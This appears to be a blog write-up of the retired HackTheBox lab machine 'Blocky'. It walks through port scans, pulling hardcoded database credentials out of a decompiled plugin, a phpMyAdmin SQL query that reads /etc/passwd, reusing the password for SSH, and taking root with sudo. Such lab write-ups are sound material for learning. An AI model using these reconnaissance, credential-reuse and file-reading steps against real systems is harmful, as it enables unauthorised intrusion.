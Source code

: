 ```yaml
---
layout: post
title: "Writeup: HackTheBox Blocky - NO Metasploit"
description: "Rooting Blocky without using Metasploit."
tags: pentest hackthebox writeup
---
```


This series will follow my exercises in [HackTheBox][]. All published writeups are for retired HTB machines. Whether
 or not I use Metasploit to pwn the server will be indicated in the title.
 
# Blocky

_<small>Difficulty: Easy</small>_

_<small>Machine IP: 10.10.10.37</small>_

The initial port scan identifies this as a Minecraft server with some kind of web server running on it.
A lot of interesting ports to throw you down rabbit holes.

```bash
sudo nmap -sS -T4 -p- 10.10.10.37

Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-29 15:53 EDT
Nmap scan report for 10.10.10.37
Host is up (0.015s latency).
Not shown: 65530 filtered ports
PORT      STATE  SERVICE
21/tcp    open   ftp
22/tcp    open   ssh
80/tcp    open   http
8192/tcp  closed sophos
25565/tcp open   minecraft
```

```bash
sudo nmap -T4 -p 21,22,80,8192,25565 -A 10.10.10.37

Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-29 15:56 EDT
Nmap scan report for 10.10.10.37
Host is up (0.014s latency).

PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Device type: general purpose|WAP|specialized|storage-misc|broadband router|printer
Running (JUST GUESSING): Linux 3.X|4.X|2.6.X (94%), Asus embedded (90%), Crestron 2-Series (89%), HP embedded (89%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel cpe:/h:asus:rt-ac66u cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3.4
Aggressive OS guesses: Linux 3.10 - 4.11 (94%), Linux 3.13 (94%), Linux 3.13 or 4.2 (94%), Linux 4.2 (94%), Linux 4.4 (94%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.12 (91%), Linux 3.2 - 4.9 (91%), Linux 3.8 - 3.11 (91%)                                                                                                                
No exact OS matches for host (test conditions non-ideal).                                                         
Network Distance: 2 hops                                                                                          
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel                                                    
                                                                                                                  
TRACEROUTE (using port 8192/tcp)                                                                                  
HOP RTT      ADDRESS                                                                                              
1   13.83 ms 10.10.14.1                                                                                           
2   13.89 ms 10.10.10.37 
```

Notably:

- A Wordpress blog is running on `tcp/80`
- FTP is exposed on this machine, running ProFTPD 1.3.5a
- Minecraft server on `tcp/25565` running version 1.11.2

I did not save the [gobuster][] command I ran for this server, but the output was:

```
/.hta (Status: 403) [Size: 290]
/.hta.txt (Status: 403) [Size: 294]
/.hta.html (Status: 403) [Size: 295]
/.hta.php (Status: 403) [Size: 294]
/.hta.asp (Status: 403) [Size: 294]
/.hta.aspx (Status: 403) [Size: 295]
/.hta.jsp (Status: 403) [Size: 294]
/.htpasswd (Status: 403) [Size: 295]
/.htpasswd.html (Status: 403) [Size: 300]
/.htaccess (Status: 403) [Size: 295]
/.htpasswd.php (Status: 403) [Size: 299]
/.htaccess.jsp (Status: 403) [Size: 299]
/.htpasswd.asp (Status: 403) [Size: 299]
/.htaccess.txt (Status: 403) [Size: 299]
/.htpasswd.aspx (Status: 403) [Size: 300]
/.htaccess.html (Status: 403) [Size: 300]
/.htpasswd.jsp (Status: 403) [Size: 299]
/.htaccess.php (Status: 403) [Size: 299]
/.htaccess.asp (Status: 403) [Size: 299]
/.htpasswd.txt (Status: 403) [Size: 299]
/.htaccess.aspx (Status: 403) [Size: 300]
/index.php (Status: 301) [Size: 0]
/index.php (Status: 301) [Size: 0]
/javascript (Status: 301) [Size: 315]
/license.txt (Status: 200) [Size: 19935]
/phpmyadmin (Status: 301) [Size: 315]
/plugins (Status: 301) [Size: 312]
/readme.html (Status: 200) [Size: 7413]
/server-status (Status: 403) [Size: 299]
/wiki (Status: 301) [Size: 309]
/wp-admin (Status: 301) [Size: 313]
/wp-blog-header.php (Status: 200) [Size: 0]
/wp-content (Status: 301) [Size: 315]
/wp-cron.php (Status: 200) [Size: 0]
/wp-config.php (Status: 200) [Size: 0]
/wp-includes (Status: 301) [Size: 316]
/wp-links-opml.php (Status: 200) [Size: 219]
/wp-load.php (Status: 200) [Size: 0]
/wp-login.php (Status: 200) [Size: 2402]
/wp-mail.php (Status: 403) [Size: 3444]
/wp-signup.php (Status: 302) [Size: 0]
/wp-trackback.php (Status: 200) [Size: 135]
```

Let's look through the various Wordpress endpoints and see if anything interesting pops out.

`http://10.10.10.37/wp-admin/install.php` shows me that they have already completed setting up the Wordpress server, so nothing there.

`http://10.10.10.37/plugins/` shows me two plugins are installed:

- `BlockyCore.jar`
- `griefprevention-1.11.2-3.1.1.298.jar`

I download both plugins and use [jd-gui][] to decompile them.
`griefprevention` seems to be a 3rd party, standard plugin.
`BlockyCore` looks like a custom plugin, however.

I find some database credentials!

![blockycore decompiled][]

```java
public String sqlHost = "localhost";
public String sqlUser = "root";
public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```

Since these are database credentials, I can likely log into [PHPMyAdmin][] with them.
Indeed, I am successful on `http://10.10.10.37/phpmyadmin` with the credentials `root / 8YsqfCTnvxAUeduzjNSXe22`.

Now, there is a lot I can try out with access to the server's databases.

I can gather information on the technology running and look for exploits.

```
Apache/2.4.18 (Ubuntu)
Database client version: libmysql - mysqlnd 5.0.12-dev - 20150407 - $Id: b5c5906d452ec590732a93b051f3827e02749b83 $
PHP extension: mysqli Documentation
PHP version: 7.0.18-0ubuntu0.16.04.1
PHPMyAdmin: Version information: 4.5.4.1deb2ubuntu2

Database:
Server: Localhost via UNIX socket
Server type: MySQL
Server version: 5.7.18-0ubuntu0.16.04.1 - (Ubuntu)
Protocol version: 10
User: root@localhost
Server charset: UTF-8 Unicode (utf8)
```

I can look for a `users` table in one of the databases and try to crack passwords.
In the `wordpress` database, there is a `Notch` user with the hash `$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/`.

I can also read data off the file system.

```sql
load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';
SELECT * FROM `test`;
```

![passwd from sql][]

But, let's keep things simple. I see from the `wordpress` table that the user is `notch`.
I found a password in `public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";`.
I have an open SSH port.
Let's give it a try.

```bash
ssh notch@10.10.10.37
```

Using the discovered `sqlPass` password, I am able to SSH onto the box as the `notch` user.
I can collect the user flag.
From here, I always like to check my `sudo` permissions before doing anything else.

```bash
notch@Blocky:~/minecraft/config$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

Well then! I can do whatever I want on the system.
I can use `sudo -i` to gain a root shell.

```bash
notch@Blocky:~/minecraft/config$ sudo -i
root@Blocky:~# whoami
root
```

The [`-i` flag][sudo i]:

> runs the shell specified by the password database entry of the target user as a login shell.
> If no command is specified, an interactive shell is executed.

We can now collect the root flag.

[gobuster]: https://github.com/OJ/gobuster
[hackthebox]: https://www.hackthebox.eu
[jd-gui]: https://tools.kali.org/reverse-engineering/jd-gui
[sudo i]: https://linux.die.net/man/8/sudo

[blockycore decompiled]: /assets/img/htb/blocky/sql-creds-decompiled-jar.png
[passwd from sql]: /assets/img/htb/blocky/phpmyadmin-etc-passwd.png
